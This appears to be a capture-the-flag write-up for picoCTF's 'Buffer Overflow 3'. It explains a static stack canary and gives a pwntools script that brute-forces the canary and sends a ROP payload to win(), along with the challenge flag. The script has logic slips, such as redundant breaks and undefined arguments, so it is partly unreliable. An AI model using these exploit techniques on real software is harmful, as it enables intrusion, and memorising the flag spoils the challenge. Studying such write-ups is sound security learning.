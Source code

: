 # Buffer Overflow 3

## Challenge Description: Do you think you can bypass the protection and get the flag?

For this challenge, the vulnerable program has a stack canary that needs to be replaced during the buffer overflow. From the [source code](./vuln.c), we can see that a global canary is declared and subsequently copied into a local variable *canary* in the **vuln** function:

```C
#define CANARY_SIZE 4
char global_canary[CANARY_SIZE];
// Inside Vuln function 
char canary[CANARY_SIZE];
memcpy(canary,global_canary,CANARY_SIZE);
if (memcmp(canary,global_canary,CANARY_SIZE)) {
      printf("***** Stack Smashing Detected ***** : Canary Value Corrupt!\n"); // crash immediately
      exit(-1);
```

If the local canary value does not equals to the global value, the program immediately crashes. Since the canary is only 4 bytes long, we should be able to perform a brute force attack on it character by character. We will check for the beginning of the output (**\*\*\*\*\**) for a failed *memcmp* check to determine if our character is right or wrong.

In order to perform the attack, we will need to know the location of the following information:

1. Address of the global canary variable (Using **info variables**)
   ![global _canary_add](https://user-images.githubusercontent.com/71312079/160633120-d176175c-88b9-48d5-b5ce-efb300413c20.png)

2. Buffer location (From disassembling **vuln()**)
   ![buffer_loc](https://user-images.githubusercontent.com/71312079/160633098-7416390c-e970-4a9c-ae74-030918319fb1.png)

3. Canary offset (From disassembling **vuln()**)
   ![canary_offest](https://user-images.githubusercontent.com/71312079/160633107-b8f69d8c-bafc-4aa8-9790-c43633539162.png)

Looking back at our source code again, we see that we desire to jump to the **win()** function that will print the flag.

```C
void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f); // size bound read
  puts(buf);
  fflush(stdout);
}
```

I then crafted the following payload: 

```python
from pwn import *

exe = './vuln' #name of 32bit program
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'debug'
#p = remote('IP/hostname', port)
offset = 0x50 - 0x10 # difference from buffer & canary offsets  
num_found = 0
canary = b''

while True:
    for i in range(256): # brute forcing canary

        p = process(exe)
        p.sendlineafter(b">", str(offset + num_found).encode('utf-8'))

        p.sendlineafter(b">", b"A"* offset + canary + bytes([i]))
        if b"*****" in p.recvline():
            i += 1
            continue 
        canary += bytes([i])
        num_found += 1
        if num_found == 4:
            break
            break
        break

print(canary)

rop = ROP(elf)
rop.win(arg1,arg2) 
payload = flat({
    offset: rop.chain()
})

p.sendline(payload)
p.interactive()
```

Running the code aboved produced the canary value ```BiRd``` (Coincidentally also the name of a similar challenge in Pico 2019) as well as the flag:

![flag](https://user-images.githubusercontent.com/71312079/160633115-ba58ad21-3420-4268-ba4a-e829ba02493b.png)

FLAG: `picoCTF{Stat1C_c4n4r13s_4R3_b4D_9602b3a1}`

NOTE: I originally did NOT do the ROP method and manually crafted the payload, which didn't work as I did not include "junk" as padding for the return pointer. This was hence a good lesson on the importance of knowing technical details beyond easy-to-use tools like ROP.

```python
flag_addr = p32(elf.symbols['win'])  
payload = flat({
    offset: [
    flag_addr,
    "junk", # junk needed as the function will first push return pointer onto stack -> padding for return pointer 
    p32(arg1),
    p32(arg2)
    ]
})
```
